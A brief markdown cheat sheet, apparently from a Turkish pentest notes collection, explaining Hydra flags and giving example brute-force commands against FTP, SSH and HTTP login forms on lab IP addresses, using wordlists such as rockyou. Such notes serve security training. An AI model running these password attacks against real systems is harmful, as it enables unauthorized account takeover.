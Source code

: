 Usage:

-W responseu bekler.

-t paralel tret çalıştırır.

http-post-form: the type of the form is POST

<path>: the login page URL, for example, login.php

<login_credentials>: the username and password used to log in, for example, username=^USER^&password=^PASS^

<invalid_response>: part of the response when the login fails

-V: verbose output for every attempt

---

-x MIN:MAX:CHARSET :

    -x 3:5:a  generate passwords from length 3 to 5 with all lowercase letters

    -x 5:8:A1 generate passwords from length 5 to 8 with uppercase and numbers

    -x 1:3:/  generate passwords from length 1 to 3 containing only slashes

    -x 5:5:/%,.-  generate passwords with length 5 which consists only of /%,.-

---

    hydra -l user -P passlist.txt ftp://10.10.151.249

---    

    hydra -l USER_NAME -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.21 -VV

---

    hydra -l root -P passwords.txt ssh://10.10.151.249 -t 4

---   

    sudo hydra <username> <wordlist> MACHINE_IP http-post-form "<path>:<login_credentials>:<invalid_response>" -V

---

    hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

---
[Tools](../tools.md) | [Ana Sayfa](../README.md)
